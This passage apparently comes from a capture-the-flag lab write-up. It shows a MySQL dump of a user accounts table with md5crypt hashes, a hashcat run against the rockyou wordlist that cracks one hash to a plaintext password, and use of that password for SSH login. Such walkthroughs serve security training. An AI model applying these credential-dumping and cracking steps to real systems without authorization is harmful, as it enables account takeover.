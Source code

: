 ```
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)
```

Getting everything from this table we can retrieve the hash for the user m4lwhere.

```
mysql> select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | whatever | $1$🧂llol$QLnqA0.eAutt05CqQgN2E0 | 2021-08-07 19:33:19 |
|  3 | access   | $1$🧂llol$QLnqA0.eAutt05CqQgN2E0 | 2021-08-07 20:27:16 |
+----+----------+------------------------------------+---------------------+
3 rows in set (0.00 sec)
```

This cracks after some time with hashcat.

```
$ hashcat -m 500 hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.1.1) starting...
...[snip]...
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!

Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Sat Aug  7 20:49:26 2021 (6 mins, 38 secs)
Time.Estimated...: Sat Aug  7 20:56:04 2021 (0 secs)
Guess.Base.......: File (/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    18660 H/s (6.90ms) @ Accel:256 Loops:125 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413760/14344384 (51.68%)
Rejected.........: 0/7413760 (0.00%)
Restore.Point....: 7412736/14344384 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
Candidates.#1....: ilovecwb -> ilovechloeloads

Started: Sat Aug  7 20:49:12 2021
Stopped: Sat Aug  7 20:56:06 2021
```

Testing the credentials with ssh we can login and grab the user flag.
